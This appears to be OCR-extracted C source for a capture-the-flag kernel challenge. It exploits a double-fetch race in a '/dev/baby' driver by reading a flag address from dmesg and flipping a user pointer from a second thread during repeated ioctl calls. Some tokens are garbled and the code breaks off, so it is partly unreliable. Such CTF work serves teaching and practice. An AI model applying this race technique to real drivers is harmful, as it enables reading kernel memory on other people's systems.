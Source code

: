 ```c
 
 
void evil_thread_func(void *a){     // arg is the address of user_data struct
    printf("Evil thread hijack!\n");
    struct attr *s = a;
    while(finish){
        s->flag = flag_addr;        // change flag pointer to flag address
    }
 
};
 
 
int main(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
 
 
    char buf[201]={0};
    char user_flag[] = "flag{user_flag}";
 
 
    struct attr user_data;
    user_data.flag = user_flag;
    user_data.len = 33;
 
    int fd;
    fd = open("/dev/baby",0);   // open device
 
    int ret;
    ret = ioctl(fd,0x6666);     // send command 0x6666
    system("dmesg | grep flag > /tmp/target.txt");  // dmesg to get flag_addr 
 
    // read flag
    int file_fd = open("/tmp/target.txt",O_RDONLY);
    int id = read(file_fd,buf,200);
    close(file_fd);
 
    char *addr;
    addr = strstr(buf,"Your flag is at ");
    if(!addr){
        perror("error!");
        return -1;
    }
 
    addr += 0x10;
 
    flag_addr = strtoull(addr, addr + 16,16);    //hex string to unsigned long long，global value flag_addr is target flag address
    printf("[*]flag addr is : %p\n", flag_addr);
 
    pthread_t evil_thread;
    pthread_create(&evil_thread, NULL, evil_thread_func, &user_data);       //start a evil thread to change user_data, continiously changes user_flag pointer to target flag_addr for double-fetch
    
    // TryTime=1000
    for(int i = 0; i <T ryTime; i++){
        ret = ioctl(fd, 0x1337, &user_data);       // send command 0x1337
        user_data.flag = uesr_flag;                 // make sure user_data flag pointer point to user space for cheating
    }
    finish = 0;                                   
    pthread_join(evil_thread, NULL);
```